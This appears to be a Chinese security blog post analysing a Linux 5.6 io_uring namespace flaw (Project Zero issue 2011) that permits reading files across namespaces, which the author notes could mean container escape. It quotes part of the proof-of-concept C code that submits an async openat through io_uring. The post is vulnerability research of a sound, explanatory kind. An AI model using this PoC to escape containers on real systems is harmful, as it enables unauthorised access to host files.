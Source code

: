 > 原文链接: https://www.anquanke.com//post/id/203112 


# Linux "io_uring"  namespace 的一个问题


                                阅读量   
                                **447758**
                            
                        |
                        
                                                            评论
                                <b>
                                    <a target="_blank">1</a>
                                </b>
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



[![](https://p4.ssl.qhimg.com/t01983dbaeef1086525.png)](https://p4.ssl.qhimg.com/t01983dbaeef1086525.png)



看了jannh的[report](https://bugs.chromium.org/p/project-zero/issues/detail?id=2011), 有点迷迷糊糊的，于是跟着分析了一波。之前也分析过 io_uring 一个权限问题，io_uring代码还在频繁的更新，期间肯定会出现各种各样的安全问题，要找个时间研究一波hh.



## 环境配置

以下所有的分析都是在 ubuntu 18.04 虚拟机下，使用的是[linux-5.6](https://mirrors.edge.kernel.org/pub/linux/kernel/v5.x/linux-5.6.tar.xz) 版本的内核，可以在[github](https://github.com/rtfingc/cve-repo/tree/master/0x02-p0-issue-2011-io_uring_namespace)上找到我的环境



## 漏洞分析

这个洞其实就是没有做好namespace的检查，最后导致可以读取其他namespace的文件，这放到容器里那就是逃逸了。这里从代码的层面看看究竟发生了什么。

### <a class="reference-link" name="poc"></a>poc

可以在[这里](https://bugs.chromium.org/p/project-zero/issues/detail?id=2011) 找到jannh 的poc,

```
int main(void) `{`
  // initialize uring
  struct io_uring_params params = `{` `}`;
  int uring_fd = SYSCHK(syscall(SYS_io_uring_setup, /*entries=*/10, &amp;params));
  unsigned char *sq_ring = SYSCHK(mmap(NULL, 0x1000, PROT_READ|PROT_WRITE, MAP_SHARED, uring_fd, IORING_OFF_SQ_RING));
  unsigned char *cq_ring = SYSCHK(mmap(NULL, 0x1000, PROT_READ|PROT_WRITE, MAP_SHARED, uring_fd, IORING_OFF_CQ_RING));
  struct io_uring_sqe *sqes = SYSCHK(mmap(NULL, 0x1000, PROT_READ|PROT_WRITE, MAP_SHARED, uring_fd, IORING_OFF_SQES));

  // execute openat via uring
  sqes[0] = (struct io_uring_sqe) `{`
    .opcode = IORING_OP_OPENAT,
    .flags = IOSQE_ASYNC,
    .fd = open("/", O_RDONLY),
    .addr = (unsigned long)"/",
    .open_flags = O_PATH | O_DIRECTORY
  `}`;
   ((int*)(sq_ring + params.sq_off.array))[0] = 0;
  (*(int*)(sq_ring + params.sq_off.tail))++;
```